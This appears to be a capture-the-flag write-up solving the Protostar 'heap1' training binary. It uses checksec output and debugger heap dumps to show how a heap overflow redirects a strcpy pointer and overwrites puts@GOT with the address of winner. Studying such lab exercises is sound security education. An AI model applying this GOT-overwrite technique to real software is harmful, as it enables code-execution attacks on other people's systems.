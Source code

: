 # Protostar - Heap1
A heap overflow overwriting a pointer in a structure. We have to call the function **winner**.

## Binary
### Code
Decompiled with Binary Ninja HLIL.

![](img/main_hlil.png)

### Security 
Only NX enabled.

```shell
$ checksec ./heap1
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## Solution
Overwrite **puts@GOT** with pointer to **winner** function.

#### Heap chunks
We have four chunks of size 0x10
```shell
gef➤  dereference 0x0804b1a0-8 16
0x0804b198│+0x0000: 0x00000000
0x0804b19c│+0x0004: 0x00000011
0x0804b1a0│+0x0008: 0x00000001
0x0804b1a4│+0x000c: 0x0804b1b0  →  "AAAA"
0x0804b1a8│+0x0010: 0x00000000
0x0804b1ac│+0x0014: 0x00000011
0x0804b1b0│+0x0018: "AAAA"
0x0804b1b4│+0x001c: 0x00000000
0x0804b1b8│+0x0020: 0x00000000
0x0804b1bc│+0x0024: 0x00000011
0x0804b1c0│+0x0028: 0x00000002
0x0804b1c4│+0x002c: 0x0804b1d0  →  "BBBB"
0x0804b1c8│+0x0030: 0x00000000
0x0804b1cc│+0x0034: 0x00000011
0x0804b1d0│+0x0038: "BBBB"
0x0804b1d4│+0x003c: 0x00000000
```
Two chunks contain a pointer to another chunk used as the destination in **strcpy**.

We use the first **strcpy** to overwrite the destination of the second **strcpy** and point it to **puts@GOT**.

We use the second **strcpy** to overwrite **puts@GOT** with the address of our **winner** function. That way when puts gets called for the first time it executes **winner**.

So for the first **strcpy** we need a padding of 0x10 (distance to the next chunk data) plus 0x4 (size of first part of data containing an int). And then we the address of **puts@GOT**.

For the second **strcpy** we just have to give it the address of our **winner** function.

### Heap chunks after overflow
```shell
gef➤  dereference 0x098951a0-8 16
0x09895198│+0x0000: 0x00000000
0x0989519c│+0x0004: 0x00000011
0x098951a0│+0x0008: 0x00000001
0x098951a4│+0x000c: 0x098951b0  →  0x61616161
0x098951a8│+0x0010: 0x00000000
0x098951ac│+0x0014: 0x00000011
0x098951b0│+0x0018: 0x61616161
0x098951b4│+0x001c: 0x61616162
0x098951b8│+0x0020: 0x61616163
0x098951bc│+0x0024: 0x61616164
0x098951c0│+0x0028: 0x61616165
0x098951c4│+0x002c: 0x0804a018  →  0x080484b6  →  <winner+0> push ebp
0x098951c8│+0x0030: 0x00000000
0x098951cc│+0x0034: 0x00000011
0x098951d0│+0x0038: 0x00000000
0x098951d4│+0x003c: 0x00000000
```